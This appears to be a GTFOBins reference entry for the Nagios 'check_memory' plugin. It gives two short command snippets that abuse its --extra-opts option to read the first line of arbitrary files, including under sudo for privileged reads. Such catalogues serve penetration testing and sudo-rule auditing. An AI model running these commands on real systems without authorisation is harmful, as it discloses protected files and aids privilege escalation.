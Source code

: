 # GTFOBin: check_memory

This is the `check_memory` Nagios plugin, available e.g. in `/usr/lib/nagios/plugins/`. The read file content is limited to the first line.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
check_memory --extra-opts=@$LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo check_memory --extra-opts=@$LFILE
```